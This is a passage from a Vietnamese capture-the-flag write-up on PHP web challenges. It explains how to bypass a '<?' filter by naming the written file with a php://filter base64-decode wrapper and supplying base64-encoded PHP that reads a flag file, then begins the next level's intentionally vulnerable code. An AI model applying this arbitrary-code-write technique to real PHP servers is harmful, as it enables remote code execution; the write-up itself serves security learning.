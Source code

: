 ```php
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
?>
```

Phần đặt tên file tại param `filename` thì không có vấn đề gì nhưng chỗ `data` thì có check kiểm tra nếu chứa các tag như `<?` và `script`, nếu không có thì sẽ `file_get_contents` đến file vừa edit. Vậy ý tưởng của bài này thì quá rõ ràng, ta làm sao để inject được code php vào trong param `data` mà không cần dùng đến `<?` và `script`, sau đó truy cập đến file đấy là có thể chạy được code mà ta mong muốn.

Để bypass chỗ này, ta có thể làm các bước sau:
- Đặt tên file tại param `filename` là một php wrapper filter -> nếu ta truy cập vào filename dưới dạng php wrapper filter là base64 decode, thì nội dung bên trong sẽ bị decode theo base64 (tìm hiểu thêm về php wrapper tại [đây](https://www.php.net/manual/en/wrappers.php.php) )
- Đặt data tại param `data` là dạng code php chứa `<?` mà ta mong muốn, nhưng ta phải encode base64 cho nó để khi edit file khi `filename` đang là một php wrapper decode base64, sau đó `file_get_contents` tới thì data sẽ được base64 decode trở lại và ta đã thành công trong việc lưu arbitrary php code mà không cần dùng đến `<?`.
- Bước cuối cùng quá đơn giản, truy cập tới nó là có thể đọc flag.

Áp dụng vô bài nào, đầu tiên đặt tên file là

```
php://filter/convert.base64-decode/resource=adu.php
```

edit data thành:

```
// base64 encode từ <?php readfile('../../flag.php');?>
PD9waHAgcmVhZGZpbGUoJy4uLy4uL2ZsYWcucGhwJyk7Pz4=
```

![image](https://user-images.githubusercontent.com/75429369/183102606-802f55d4-cb69-4cdf-8583-06c91412b262.png)

Truy cập tới file và 

![image](https://user-images.githubusercontent.com/75429369/183102679-2efc75d7-558d-41e7-b190-316e0e5638c9.png)

# level09

Bài này lại tiếp tục cho ta lưu một đoạn code và đố ta làm sao đọc được `flag.txt`

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);
if( isset ($_GET['submit']) && isset ($_GET['c'])) {
    $randVal = sha1 (time ());

    setcookie ('session_id', $randVal, time () + 2, '', '', true, true);

    try {
        $fh = fopen('/tmp/' . $randVal, 'w');

        fwrite (
            $fh,
                   str_replace (
                ['<?', '?>', '"', "'", '$', '&', '|', '{', '}', ';', '#', ':', '#', ']', '[', ',', '%', '(', ')'],
                '',
                $_GET['c']
```